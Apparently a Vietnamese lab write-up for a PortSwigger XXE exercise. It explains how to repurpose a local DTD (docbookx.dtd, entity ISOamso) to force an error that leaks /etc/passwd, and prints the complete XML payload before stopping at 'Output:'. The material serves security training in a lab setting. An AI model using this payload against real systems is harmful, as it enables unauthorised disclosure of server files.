 Đầu tiên ta khai báo ``local_dtd`` để chứa nội dung của file ``schema.dtd``, vì trong file ``schema.dtd`` có một ``custome_entity`` nên ta khai báo ``custome_entity`` mới để ghi đè lên. Và nội dung của ``custome_entity`` mới này dùng để trigger error message để đọc nội dung của /etc/passwd. Cuối cùng ta gọi ``%local_dtd;`` để trigger payload

#### Làm sao để biết được vị trí của file DTD trong hệ thống để thực hiện ghi đè entity?
Thông thường, một hệ thống Linux sử dụng GNOME desktop environment sẽ lưu danh sách file DTD ở ``/usr/share/yelp/dtd/docbookx.dtd``. Ta có thể test bằng cách dùng error message để in nội dung danh sách này ra  

#### Ví dụ: Lab9 XXE injection portswigger
Ở labs này thì vẫn là trang check stock và labs yêu cầu ta dùng kỹ thuật repurposing để trigger ra error mesage chứa nội dung của /etc/passwd.

Labs có gợi ý trong hệ thống có file ``/usr/share/yelp/dtd/docbookx.dtd`` và file này có entity là ``ISOamso``

Ta dùng payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
      <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
      <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
'>
  %local_dtd;
  <stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
  </stockCheck>
```
Output:
